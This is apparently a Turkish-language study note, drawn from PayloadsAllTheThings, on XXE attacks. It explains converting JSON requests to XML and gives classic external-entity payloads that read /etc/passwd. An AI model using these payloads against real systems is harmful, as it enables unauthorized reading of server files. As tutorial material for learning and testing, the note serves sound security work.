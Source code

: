 ![Pasted image 20250515121631.png](/img/user/resimler/Pasted%20image%2020250515121631.png)

#### PayloadsAllTheThings JSON Endpoint'lerde XXE

HTTP isteğinde `Content-Type`'ı JSON'dan XML'e değiştirmeyi deneyin,

|Content Type|Data|
|---|---|
|`application/json`|`{"search":"name","value":"test"}`|
|`application/xml`|`<?xml version="1.0" encoding="UTF-8" ?><root><search>name</search><value>data</value></root>`|

* XML dokümanları, diğer tüm elementlerin parent'ı olan bir root (`<root>`) elementi içermelidir.
* Veriler de XML'e dönüştürülmelidir, aksi takdirde sunucu bir hata ile yanıt verecektir.

```
{
  "errors":{
    "errorMessage":"org.xml.sax.SAXParseException: XML document structures must start and end within the same entity."
  }
}
```

*  [NetSPI/Content-Type Converter](https://github.com/NetSPI/Burp-Extensions/releases/tag/1.4)



### 6- Hassas Dosya Okuma (Örn. /etc/passwd)

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```

veya tek tırnak kullanılabilir . 

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<root>&test;</root>
```

- En basit ve sade **Classic XXE** payload.
- `<!ENTITY test SYSTEM ...>` ile `file:///etc/passwd` dosyasının içeriği `&test;` tagı ile çağrılıyor.
- `root` elementi içerisinde `&test;` çağrılarak içerik XML çıktısına dahil ediliyor.

#### Avantajı:

- Parser, `DOCTYPE` ve `ENTITY` kullanımına izin veriyorsa çalışır.
- Oldukça yaygın ve çoğu eğitim platformunda kullanılır.

![Pasted image 20250513114117.png](/img/user/resimler/Pasted%20image%2020250513114117.png)
